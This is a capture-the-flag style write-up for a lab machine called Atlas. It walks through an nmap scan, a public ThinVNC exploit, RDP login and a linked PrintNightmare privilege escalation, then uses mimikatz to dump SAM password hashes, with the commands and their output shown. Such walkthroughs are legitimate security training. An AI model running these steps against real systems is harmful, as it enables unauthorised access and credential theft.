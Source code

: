 # Atlas v1.4

## Enumeration

### NMAP Scan 

Check for running services and open ports. I realized after I ran the above command that I didn't need the `-A`. I changed my mind half way through typing it and didn't remove the `-A`.
```bash 
nmap -p- -Pn -sC -sV -A -vv -oN nmap.scan IPaddr
```

__*Ports*__
* 3389 Windows RDP
* 8080 ThinVNC

## Exploits

### Access - ThinVNC Exploit
> by Muirland Oracle

https://github.com/MuirlandOracle/CVE-2019-17662

[+] Credentials Found!
Username:       [REDACTED]
Password:       [REDACTED]

Now we can log into the ThinVNC service on port 8080. But since we have credentials, let's move into the Windows native RDP for a better interactive interface. 
```bash
xfreerdp /v:IPaddr /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```

### Privilege Escalation - PrintNightmare
> by Caleb Stewart and John Hammond

https://github.com/calebstewart/CVE-2021-1675

### Post Exploitation - Mimikatz

Use this exploit to dump password hashes. Download mimikatz, move mimkatz to the tmp directory, and unzip the archive.
```bash
cd /tmp
mv ~/Downloads/mimikatz_trunk.zip .
unzip mimikatz_trunk.zip
```
Go back to the target computer. In RDP session use the elevated Command Shell to launch the exploit:
```bash
\\tsclient\share\mimikatz_trunk\x64\mimikatz.exe
```

If all goes well you get some nice ASCII art and a new mimikatz prompt. 

Before we run it, we usually need to execute two commands before dumping the hashes:
* `privilege::debug` - this obtains debug privileges which allows us to access other processes for "debuging" purposes.
* `token::elevate` - simply put, this takes us from our administrative shell with high privileges into a `SYSTEM` level shell with maximum privileges. This is something that we have a *right* to do as an administrator, but that is not usually possible using normal Windows operations

There are several commands that can be used to dump the hashes. We will use: `lsadump::sam`.
```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

---

mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: [REDACTED]
```
